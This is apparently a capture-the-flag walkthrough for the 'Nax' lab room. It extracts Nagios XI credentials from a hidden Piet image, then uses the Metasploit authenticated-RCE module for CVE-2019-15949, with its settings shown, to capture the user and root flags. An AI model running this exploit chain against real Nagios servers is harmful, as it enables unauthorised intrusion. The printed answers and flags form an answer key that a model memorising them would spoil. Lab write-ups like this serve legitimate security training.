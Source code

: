 # Nax

> John Hammond | August 12th, 2020

--------------------

```bash
export IP=10.10.255.52
```

# Task 1 - Flag

1. What hidden file did you find?

Find this with the elements

```

```

2. Who is the creator of this file?

```
Piet Mondrian
```

Use exiftool to get the author

To decode the `piet` image, use `npiet`.

To compile npiet, you need this dependency:

```
sudo apt install -y libgd-dev
```

I had to use a file with this hash:

```
f590248819089bc840b16211c222b83b  test.png
```

This file came on a whim when downloading via curl:

```
curl http://10.10.63.174/PI3T.PNg
```

And I had to use npiet-1.3e, which is old. I found it here:

https://gitlab.mpfservers.de/tobias/ctf/blob/e9d4ea02b1f0c2fe217fd7cb9232d6cb56ce92c9/hackvent2018/day06/npiet-1.3e/npiet.1

```
nagiosadmin%n3p3UQ&9BjLp4$7uhWdYnagiosadmin%n3p3UQ&9BjLp4$7uhWdY
```

3. What is the username you found?

```
nagiosadmin
```

4. What is the password you found?

```
n3p3UQ&9BjLp4$7uhWdY
```

5. What is the CVE number for this vulnerability?

```
CVE-2019-15949
```

6. No answer needed.

7. After Metasploit has started, let's search for our target exploit using the command 'search applicationame'. What is the full path (starting with exploit) for the exploitation module?

```
exploit/linux/http/nagios_xi_authenticated_rce
```

8. Compromise the machine and locate user.txt

```
use exploit/linux/http/nagios_xi_authenticated_rce
set LHOST tun0
set RHOST 10.10.63.174
set PASSWORD n3p3UQ&9BjLp4$7uhWdY
```

```
cat /home/galand/user.txt
```

```
THM{84b17add1d72a9f2e99c33bc568ae0f1}
```

9. Locate root.txt

```
THM{c89b2e39c83067503a6508b21ed6e962}
```